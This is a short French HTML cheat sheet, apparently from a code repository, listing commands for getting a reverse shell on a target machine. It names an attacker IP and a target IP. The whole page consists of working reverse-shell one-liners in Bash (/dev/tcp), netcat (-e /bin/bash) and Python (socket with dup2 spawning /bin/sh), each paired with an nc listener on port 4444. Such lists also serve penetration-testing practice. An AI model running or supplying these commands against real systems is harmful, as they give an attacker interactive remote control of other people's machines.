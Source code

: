<h2>Liste de commandes pour obtenir un reverseshell sur la machine cible</h2>

<ul>(A) Attaquant: 192.168.10.10</ul>
<ul>(C) cible: 192.168.10.100</ul>

<h3>Bash</h3>
(A) # nc -nlvp 4444 
<br/>
(C) # bash -i >& /dev/tcp/192.168.10.10/4444 0>&1
<br/>

<h3>netcat</h3>
(A) # nc -nlvp 4444 
<br/>
(C) # nc -e /bin/bash 192.168.10.10 4444 
<br/>

<h3>Python</h3>
(A) # nc -nlvp 4444 
<br/>
(C) # python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.10.10",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
<br/>





